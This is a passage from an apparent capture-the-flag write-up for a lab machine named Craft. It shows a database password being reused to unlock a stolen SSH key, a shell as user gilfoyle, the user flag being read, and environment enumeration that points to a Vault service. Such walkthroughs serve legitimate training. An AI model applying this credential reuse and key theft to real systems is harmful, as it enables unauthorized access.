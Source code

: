 ```
   |\_|__|__|_/|
    \_________/

Enter passphrase for key '/root/id_rsa_craft_gilfoyle': 

```

Luckily, the password from the database, `ZEU3N8WNM2rh4T`, works:

```

Enter passphrase for key '/root/id_rsa_craft_gilfoyle':
Linux craft.htb 4.9.0-8-amd64 #1 SMP Debian 4.9.130-2 (2018-10-27) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Tue Jul 16 02:22:43 2019 from 10.10.14.8
gilfoyle@craft:~$ id
uid=1001(gilfoyle) gid=1001(gilfoyle) groups=1001(gilfoyle)

```

And with this shell I can grab `user.txt`:

```

gilfoyle@craft:~$ cat user.txt
bbf4b0ca************************

```

## Shell as root@craft

### Enumerate Craft

With shell as gilfoyle, I can look around, and I find a couple interesting things, each with references to “vault”.

In the environment variables, there’s a `VAULT_ADDRESS` value:

```

gilfoyle@craft:~$ env
SSH_CONNECTION=10.10.14.8 57964 10.10.10.110 22
LANG=en_US.UTF-8
XDG_SESSION_ID=792
USER=gilfoyle
PWD=/home/gilfoyle
HOME=/home/gilfoyle
SSH_CLIENT=10.10.14.8 57964 22
SSH_TTY=/dev/pts/0
MAIL=/var/mail/gilfoyle
TERM=screen
SHELL=/bin/bash
VAULT_ADDR=https://vault.craft.htb:8200/
SHLVL=1
LOGNAME=gilfoyle
XDG_RUNTIME_DIR=/run/user/1001
PATH=/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games
_=/usr/bin/env

```
